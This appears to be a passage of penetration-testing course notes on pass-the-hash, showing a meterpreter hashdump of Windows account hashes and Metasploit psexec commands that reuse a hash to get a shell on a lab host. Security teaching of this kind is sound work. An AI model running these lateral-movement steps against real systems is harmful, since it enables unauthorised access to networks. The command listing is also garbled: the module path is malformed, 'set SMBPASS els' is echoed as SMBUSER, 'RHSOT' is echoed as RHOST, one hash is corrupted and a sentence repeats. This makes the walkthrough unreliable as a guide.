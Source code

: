   Now that we have password hashes we can move in two different directions.
  Let's see the first one:
  - Pass the Hash
    If we are not able to crack the hashes, we have to uses other techniques to ensure access on the target machine.

    Pass the hash is a technique that allows us to connect to a remote machine, by the means of the hash without using the actual plain-text password.
      This technique can be used to connect back into the exploited machine, or to exploit other machines that share the same account credentials.

      Pass the hash is a technique discovered and [published][http://www.securityfocus.com/bid/233/discuss] in 1997 by Paul Ashton that allows an attacker to use LM and NTLM hashes to authenticate to a remote host.

      As you can imagine, if we are to gather administrator hashes, we can mount a pass the hash attack on all the machine in the network.
      This is dangerous since the same accounts (**username** and **password_hash**) can be used on multiple machines.

    There are different tools and scripts freely available online that we can use to exploit this vulnerability.
      What we are going to use in the next slide is a Metasploit module called `psexec`, that given a username and a password (or its hash), is able to execute an arbitrary payload.

    Let us see how to use the previous gathered hashes in order to obtain a shell on the remote system.

    The Metasploit module we are going to use is stored at the following path:
      ```
      use exploit/windows/smbpsexec
      ```

    Once selected, we will just need to set the password hash (`SMBPass`) the username (`SMBUser`), the remote host IP address (`RHOST`) and then configure the payload options.

    Notice that the attack only works if we use an administrator account.
    Let's once again get the password hashes from the session that we already have on the password hashes from the session that we already have on the target machine and let's copy the username and password hash.
      ```
      meterpreter > hashdump
      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d13ae931b73c59d7e0c089c0:::
      els:501:aad3b435b51404eeaad3b435b51404ee:d9e6bffa796d2688ac52a49b74132a4f:::
      Guest:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16cfe0d16ae931b73c59d7e0c089c0:::
      ```

    Our username will be `els` while the password hash is:
      ```
      aad3b435b51404eeaad3b435b51404ee:d9e6bffa796d2688ac52a49b74132a4f
      ```

    Now we can configure the `psexec` module as follows and run the attack:
      ```
      msf exploit(psexec) > set SMBPASS
      aad3b435b51404eeaad3b435b51404ee:d9e6bffa796d2688ac52a49b74132a4f
      SMBPASS => aad3b435b51404eeaad3b435b51404ee:d9e6bffa796d2688ac52a49b74132a4f
      msf exploit(psexec) > set SMBPASS els
      SMBUSER => els
      msf exploit(psexec) > set RHSOT 192.168.102.155
      RHOST => 192.168.102.155
      msf exploit(psexec) > exploit
      ```
